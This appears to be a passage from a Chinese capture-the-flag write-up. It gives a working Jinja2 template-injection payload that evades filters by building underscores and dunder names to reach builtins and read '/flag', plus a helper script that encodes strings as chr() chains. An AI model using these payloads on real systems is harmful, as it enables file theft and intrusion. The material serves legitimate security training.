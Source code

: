 ```plain
{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(flag).read())%}
```

[![在这里插入图片描述](assets/1698900310-0f2482b26f1d932cd44852c6ef4b589d.png)](https://storage.tttang.com/media/attachment/2022/08/14/452e0efa-110d-407c-81aa-f507843aea56.png)

[![在这里插入图片描述](assets/1698900310-56294ae9f7cb3893442eb9ad7ee78f27.png)](https://storage.tttang.com/media/attachment/2022/08/14/47e49c5b-327f-4c9e-94cd-2fec8504690a.png)  
最终 payload

```plain
name=
{% set a=(()|select|string|list).pop(24)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(flag).read())%}
```

附赠一个字符串转换为 chr 小脚本

```plain
i= input("输入字符串：")
flag=""
for c in i:
    c= ord(c)
    b="chr(%d)" %(c)
    flag +=b+'%2b'
print(flag[0:-3:1])
```
